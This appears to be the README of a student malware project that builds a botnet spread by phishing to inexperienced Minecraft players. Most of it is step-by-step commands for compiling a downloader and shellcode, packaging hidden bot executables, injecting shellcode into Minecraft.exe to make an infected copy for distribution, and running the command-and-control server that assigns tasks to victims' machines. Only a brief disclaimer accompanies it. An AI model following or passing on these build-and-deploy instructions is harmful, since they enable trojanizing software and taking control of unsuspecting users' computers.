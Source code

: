 # MALW-MinecraftBotnet

MinecraftBotnet is a project develop to create an automated botnet which propagate though phishing emails. The target audience would be unexperienced people that plays Minecraft. This project was develop as Assignment during the Malware's subject of the Master's degree in Cybersecurity (UPC).

> [!CAUTION]
> **DISCLAIMER: This project was done for educational purposes. We are not responsible for the use you give it.**

## Structure

This project was divided in 5 sections that focuses in different aspects of the botnet guts.

1. [API](/API/): Simple webserver API which will provide all available files to be download and also shedule each machine, inside the botnet, to execute the desire tasks.
1. [InfectPE](/InfectPE/): This folder contains a self-version program which allows to inject shellcode into any executable via creating a new section. Original version [InfectPE](https://github.com/secrary/InfectPE).
1. [Malware](/Malware/): Main program that executes in the victim's computer.
1. [Payload](/Payload/): The shellcode script that will be injected into the executable and another c++ script, that will be downloaded by the shellcode, in charge of setting up the malware in victim's computer.
1. [Scripts](/Scripts/): This folder contains the task that is executed by the malware.

## Intruction:

### Compiling shellcode and mainDownloader
Maindownloader:
> `$ cd /Payload`
> `$ gcc -m32 MainDownloader.c -o MainDownloader.exe -lurlmon`
> Now, you can place the generated executable inside [API downloads folder](/API/downloads).

Payload (shellcode):
> `$ cd /Payload`
> `$ ./ShellcodeCompiler_x64.exe -r payload.cpp -a _assembly.asm -p win_x86`
> Inside the generated file `_assembly.asm` you must manually modify the assembly instruction to fix a bug. You must replace the instruction `mov eax, fs:[ecx + 0x30]` with `mov eax, [fs:ecx + 0x30]`.
> `$ nasm -g -f win32 _assembly.asm -o _assembly.o`
> `$ C:/MinGW/bin/ld.exe -g -mi386pe _assembly.o -o _assembly.exe`
>
> `$ objdump -d _assembly.exe`
> - ¡Gitbash required or any alternative! *See tmp.txt file to see the desire output
>
> Paste the .text section inside tmp.txt file
> `$ python dumpShellcode.py tmp.txt`

> [!TIP]
> You can use any other alternative to ouput the shellcode from an excutable.

> [!WARNING]
> We have encounter several errors with the gcc distribution, to compile the MainDownloader we have used the `LLVM` distribution. However, for the shellcode part we have used `MinGW` distribution.

> [!IMPORTANT]
> You will need gcc, gcc for mutiplatform (32 bits) and nasm installed.

### Compiling the tasks
> `$ cd /Scripts`
> `$ python -m PyInstaller --onefile --noconsole times.py`
> Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Compiling the malware
> `$ cd /Malware`
> `$ python -m PyInstaller --onefile --noconsole botScript.py`
> Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Infecting the Minecraft executable
> Paste the shellcode generated previously inside the file `infectPE.cpp` - `char shellcode[] =`.
>
> `$ g++ -c PE.cpp -std=c++17`
> `$ g++ -c InfectPE.cpp -std=c++17`
> `$ g++ -o InfectPE.exe InfectPE.o PE.o`
> `$ ./InfectPE.exe ./Minecraft/Minecraft.exe ./Minecraft/Minecraft_Infected.exe`
> Now, you can place `./Minecraft/Minecraft_Infected.exe` inside [API downloads folder](/API/downloads).

## Running the Botnet server:
Before starting the server, remember to change the IP address depending on how you setup the network or the server itself (you could use directly `0.0.0.0:80`) inside `/API/BotnetAPI.py`.
> `$ cd /API`
> `$ pip install -r requirements.txt`
> `$ python BotnetAPI.py`

> [!IMPORTANT]
> You will need python installed.

> [!TIP]
> Theoretically, you can deploy to docker this API. However, it was not tested for this project.

## Considerations

As the configuration varies from one computer/VM to another, the IP's may vary as well. For that reason, you should replace any IP from the Payload, MainDownloader or Malware scripts.